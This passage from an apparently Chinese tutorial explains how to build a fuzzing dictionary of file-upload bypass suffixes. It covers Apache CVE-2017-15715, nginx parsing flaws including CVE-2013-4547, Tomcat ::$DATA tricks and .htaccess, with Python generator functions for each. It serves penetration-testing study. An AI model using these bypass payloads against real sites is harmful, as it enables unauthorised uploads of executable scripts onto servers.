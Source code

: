 >     >
>     > ```
>     > 1.%0a(CVE-2017-15715)2.未知后缀 test.php.xxx
>     > ```
>     >
>     > 根据以上构造`apache_suffix_builder`函数生成规则：
>     >
>     > ```
>     > def apache_suffix_creater(suffix):
>     >  res = []
>     >  for l in suffix:
>     >      str = '%s.xxx' % l
>     >      res.append(str)
>     >      str = '%s%s' % (l,urllib.unquote('%0a')) #CVE-2017-15715
>     >      res.append(str)
>     >  return res
>     > ```
>     >
>     > #### 4.3 nginx
>     >
>     > nginx解析漏洞有三个：
>     >
>     > > 访问连接加/xxx.php test.jpg/xxx.php
>     > >
>     > > 畸形解析漏洞 test.jpg%00xxx.php
>     > >
>     > > CVE-2013-4547 test.jpg(非编码空格)\0x.php
>     >
>     > #### 4.4 tomcat
>     >
>     > tomcat用于上传绕过的有三种,不过限制在windows操作系统下。
>     >
>     > ```
>     > xxx.jsp/xxx.jsp%20xxx.jsp::$DATA
>     > ```
>     >
>     > 根据以上规则生成字典对应的代码为：
>     >
>     > ```
>     > win_tomcat = ['%20','::$DATA','/']
>     > def tomcat_suffix_creater(suffix):
>     >     res = []
>     >     for l in suffix:
>     >         for t in win_tomcat:
>     >             str = '%s%s' % (l,t)
>     >             res.append(str)
>     >     return res
>     > ```
>     >
>     > 如果确定中间件为apache,可以加入.htaccess。同时如果操作系统还为windows，我们可以大小写混合。
>     >
>     > ```
>     > if (middleware == 'apache' or middleware == 'all') and (os == 'win' or os == 'all'):
>     >     htaccess_suffix = uperTest(".htaccess")
>     > elif (middleware == 'apache' or middleware == 'all') and os == 'linux':
>     >     htaccess_suffix = ['.htaccess']
>     > else:
>     >     htaccess_suffix = []
>     > ```
>     >
>     > #### 4.5 语言，中间件与操作系统的关系
>     >
>     > 以上我们根据每个中间件的漏洞，编写了对应的fuzz字典生成函数。在最终生成字典时，我们还要考虑中间件可以运行那些语言，以及它们与平台的关系。
>